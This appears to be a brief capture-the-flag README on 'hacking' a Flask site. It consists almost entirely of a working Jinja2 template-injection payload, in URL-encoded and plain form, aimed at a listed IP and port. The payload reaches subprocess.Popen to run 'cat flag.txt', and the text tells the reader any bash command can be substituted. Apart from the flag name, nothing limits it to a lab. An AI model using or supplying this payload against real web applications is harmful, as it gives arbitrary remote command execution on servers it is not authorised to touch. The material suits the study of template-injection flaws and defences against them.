 # flask_hacked
# Hi i told you about how to hack flask site
Already command:   `http://167.172.55.94:31138/%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D`

>The first part is write URL 
>>`167.172.55.94:31138`

Second part is write exploit and start bash command
`%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D` URL encode

`{{"".__class__.__mro__[1].__subclasses__()[414] ("cat flag.txt",shell=True,stdout=-1).communicate()}}` ASCII 

`"cat flag.txt"` is a bash command. You can write your command.

Solve this task!
